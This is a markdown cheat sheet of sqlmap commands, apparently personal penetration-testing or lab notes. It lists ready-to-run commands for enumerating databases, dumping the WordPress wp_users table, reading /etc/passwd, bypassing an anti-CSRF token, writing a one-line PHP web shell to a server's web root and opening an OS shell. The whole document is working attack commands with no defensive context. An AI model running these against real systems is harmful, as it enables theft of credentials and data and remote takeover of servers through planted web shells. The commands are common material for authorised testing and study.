 
### Find Databases:

```bash
sqlmap -r request.txt --dbs --batch
```

### Find Tables in a Database:

```bash
sqlmap -r request.txt --batch --dbms=mysql -D wordpress --tables
```

### Dumping Information from  a Table

```bash
sqlmap -r request.txt --batch --dbms=mysql -D wordpress -T wp_users --dump
```

### Read Files:

```bash
sqlmap -r request.txt --file-read=/etc/passwd --batch 
```

### Write Files:

```bash
sqlmap -u request.txt --file-write=/root/Desktop/shell.php --file-dest=/var/html/www/shell.php --batch
```

### Using a cookie:

```bash
sqlmap -u http://example.com --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

or:

```bash
sqlmap -u http://example.com -H 'PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

### Using POST:

```bash
sqlmap -u www.example.com --data='id=1'
```

### Using PUT:

```bash
sqlmap -u www.example.com --data='id=1' --method PUT
```
### Store the Traffic

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

### Specify Union Columns:

```bash
sqlmap -r sql1.txt --batch --dump --union-cols=5
```

### Anti-CSRF Token Bypass

```bash
sqlmap -u "http://94.237.62.3:47458/case8.php" --batch --data="id=1&t0ken=QirEQwQ3DdLsO3DRjTFddMGz5jGARQ4ouFdpJsohEQY" --csrf-token="t0ken" --dump
```

### Shells

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```


```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

